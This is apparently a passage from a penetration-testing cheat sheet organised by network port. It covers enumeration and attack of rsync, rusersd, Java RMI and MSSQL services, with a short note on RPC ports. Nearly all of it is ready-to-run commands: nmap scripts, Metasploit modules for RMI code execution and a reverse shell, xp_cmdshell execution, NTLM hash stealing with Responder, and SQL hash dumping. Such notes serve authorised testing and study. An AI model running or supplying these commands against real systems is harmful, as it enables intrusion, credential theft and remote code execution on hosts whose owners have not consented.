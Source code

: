 ```bash
rsync -av --list-only rsync://$IP/shared_name

```
### Port 1026 - Rusersd
```bash
# Enumeration
apt-get install rusers
rusers -l $IP
Sending broadcast for rusersd protocol version 3...
Sending broadcast for rusersd protocol version 2...
tiff       potatohead:console         Sep  2 13:03   22:03
katykat    potatohead:ttyp5           Sep  1 09:35      14

```

### Port 1028 / 1099 - Java RMI
```bash
# Enumeration

# Basically this service could allow you to execute code.
msf > use auxiliary/scanner/misc/java_rmi_server
msf > use auxiliary/gather/java_rmi_registry
nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p 1028 $IP

# Reverse Shell
msf > use exploit/multi/browser/java_rmi_connection_impl

```
### Port 1030/1032/1033/1038

- Used by RPC to connect in domain network.

### MSSQL - 1433
```bash
# info

nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
msf> use auxiliary/scanner/mssql/mssql_ping

nmap -p 1433 -sU --script=ms-sql-info.nse $IP
sqsh -S $IP -U <Username> -P <Password> -D <Database>
# OR
sqsh -S $IP -U sa
    xp_cmdshell 'date'
    go

#msfconsole

#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
```